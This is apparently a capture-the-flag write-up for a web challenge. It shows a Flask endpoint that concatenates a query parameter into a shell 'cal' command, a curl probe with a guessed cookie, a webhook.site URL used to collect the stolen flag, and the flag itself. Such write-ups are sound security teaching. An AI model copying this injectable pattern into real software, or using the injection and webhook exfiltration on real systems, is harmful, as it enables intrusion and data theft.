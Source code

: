 # Open Seasame

Does the CLI listen to magic?

http://chal.competitivecyber.club:13336

Flag format: CACI{.*}

one of the admin ports is apparently open?

## Solution

http://chal.competitivecyber.club:13336/visit

```py
@app.route('/api/cal', methods=['GET'])
def get_cal():
    cookie = request.cookies.get('secret')

    if cookie == None:
        return '{"error": "Unauthorized"}'
    
    if cookie != SECRET:
        return '{"error": "Unauthorized"}'
    
    modifier = request.args.get('modifier','')
    
    return '{"cal": "'+subprocess.getoutput("cal "+modifier)+'"}'
```

```sh
curl -v --cookie "secret=Yes" http://chal.competitivecyber.club:13336/api/cal
```

https://webhook.site/#!/view/607eaea6-e5d5-4b19-9fed-a20c88b43f18

```sh
python3 solve.py

# enter api/stats/a4e1ff18-834a-401a-8060-75ab583b3e86 into prompt
# check webhook.site
# flag in query params

# CACI1_l0v3_c0mm4nd_1nj3ct10n
```
